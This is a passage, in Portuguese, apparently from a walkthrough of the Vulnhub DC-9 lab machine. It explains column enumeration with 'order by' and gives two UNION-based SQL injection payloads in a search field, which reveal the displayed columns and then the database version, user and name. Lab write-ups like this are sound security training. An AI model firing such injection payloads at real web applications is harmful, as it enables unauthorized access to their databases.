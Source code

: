 > Utizamos o comando "order by 6" pois testamos manualmente e iniciando com 1 e  adicionando +1 a cada consulta. Quando utilizamos o "order by 7" a consulta nao foi exibida, ou seja, nao exite a setima coluna na tabela




* Vamos testar quais sao os campos que podemos evadir as informacoes 

```bash
search=Fred' union select 1,2,3,4,5,6 #
```

![](/assets/img/Vulnhub/DC-9/campos-evasao.png)




* Vamos levantar algumas informacoes sobre o DB. **Versao do SGBD, usuario e banco de dados que esta sendo usado**

```bash
search=Fred' union select 1,2,3,version(),user(),database() #
```
